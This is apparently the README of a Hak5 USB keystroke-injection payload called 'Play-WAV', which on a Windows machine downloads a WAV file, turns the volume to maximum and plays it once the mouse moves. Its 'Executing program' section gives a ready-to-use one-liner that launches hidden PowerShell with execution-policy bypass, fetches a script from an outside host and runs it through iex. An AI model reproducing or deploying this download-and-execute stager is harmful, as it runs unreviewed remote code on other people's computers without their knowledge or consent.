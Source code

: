 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Play-WAV

A script used to download a WAV file and play it after a mouse movement is detected.

## Description

This program starts off by using an Invoke-WebRequest to download a WAV file. 
The system volume is then turned up to the max level. 
Then the script will be paused until a mouse movement is detected. 
After a mouse movement is detected, the WAV file will be played.

## Getting Started

### Dependencies

* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Place the WAV URL in the $wav variable
* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download your WAV file
 
```
powershell -w h -NoP -NonI -Ep Bypass $wav='';iwr https://jakoby.lol/vus | iex
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
    <td align="center" width="96">
      <a href="https://www.tiktok.com/@i_am_jakoby?lang=en">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/raw/main/img/tiktok.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>TikTok
    </td>    
  </tr>
</table>
</div>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)


<p align="right">(<a href="#top">back to top</a>)</p>

